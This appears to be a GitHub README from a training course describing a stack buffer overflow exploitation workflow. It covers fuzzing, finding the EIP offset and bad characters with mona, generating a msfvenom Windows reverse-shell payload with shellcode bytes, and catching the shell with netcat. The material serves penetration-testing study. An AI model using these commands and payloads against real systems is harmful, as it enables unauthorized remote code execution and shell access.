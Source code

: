 # Buffer_Overflow
Exploiting an application vulnerable to buffer overflow

Run Python 'fuzzer.py' script to find crash point and update offset value in exploit.py to crash point value.

Run !mona findmsp -distance <msf-pattern_create length> in Immunity to find OFFSET VALUE. Update exploit.py script offset value with this value. Set RETN value in exploit.py "B" * 4 to overwrite EIP value '/x42/x42/x42/x42'


After finding OFFSET AND RETN values run gen-array.py script and add output to PAYLOAD valiable in exploit.py script.


Generate byte array in Mona: !mona bytearray -b "\x00" | !mona compare -f C:\mona\oscp\bytearray.bin -a <address>
  Update bytearray as additional bad characters are found. Run !mona compare ESP addy until 'Unmodified' returns.;
  

  
Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
  
  
  
Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

padding = "\x90" * 16

Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

